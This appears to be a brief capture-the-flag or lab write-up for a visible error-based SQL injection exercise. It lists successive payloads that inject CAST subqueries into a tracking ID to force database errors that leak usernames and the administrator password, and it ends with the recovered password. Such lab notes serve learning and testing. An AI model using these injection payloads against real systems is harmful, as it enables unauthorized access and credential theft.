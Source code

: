 Visible error-based SQL injection
Goal:to leak the password for the administrator user, then log in to their account. 
Analysis:
select trackingId from trackingTable where trakingId='9WSsPt1yb2dC28WA''
    ->error:Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '9WSsPt1yb2dC28WA''. Expected  char
    ->SELECT * FROM tracking WHERE id = '9WSsPt1yb2dC28WA'--'

    CAST()->convert one datatype to other datatype
    previous payload-> 9WSsPt1yb2dC28WA'--
    
    9WSsPt1yb2dC28WA' and CAST((select 1) as int)-- : error generated 500
    9WSsPt1yb2dC28WA' and 1=CAST((select 1) as int)--

    9WSsPt1yb2dC28WA' and 1=CAST((select username from users) as int)-- : 500 Internal Server Error

    ' and 1=CAST((select username from users) as int)-- :ERROR: more than one row returned by a subquery used as an expression

    ' and 1=CAST((select username from users LIMIT 1) as int)--

    ' and 1=CAST((select password from users LIMIT 1) as int)--
    
    Password:iecw7xqind8g0qxzslbf